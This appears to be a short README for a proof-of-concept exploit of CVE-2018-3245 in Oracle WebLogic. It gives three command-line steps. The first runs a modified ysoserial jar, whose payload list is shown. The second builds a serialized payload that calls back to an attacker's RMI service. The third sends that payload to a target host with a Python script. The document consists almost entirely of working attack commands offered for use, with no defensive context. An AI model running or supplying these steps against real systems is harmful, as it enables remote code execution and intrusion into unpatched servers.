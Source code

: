 # CVE-2018-3245

## Step 1

`java -jar ysoserial-cve-2018-3245.jar`

```
WHY SO SERIAL?
Usage: java -jar ysoserial-cve-2018-3245.jar [payload] '[command]'
Available payload types:
     Payload         Authors   Dependencies
     -------         -------   ------------
     CVE_2018_2893_1 @mbechler
     CVE_2018_2893_2 @mbechler
     CVE_2018_2893_3 @mbechler
     CVE_2018_3245   @mbechler
     JRMPClient      @mbechler
     Jdk7u21         @frohoff
```

## Step 2

`java -jar ysoserial-cve-2018-3245.jar  CVE_2018_3245  "[RMI_SERVICE_IP]:[PORT]"  >  poc5.ser`

## Step 3

`python weblogic.py [TARGET_HOST] [PORT] poc5.ser`


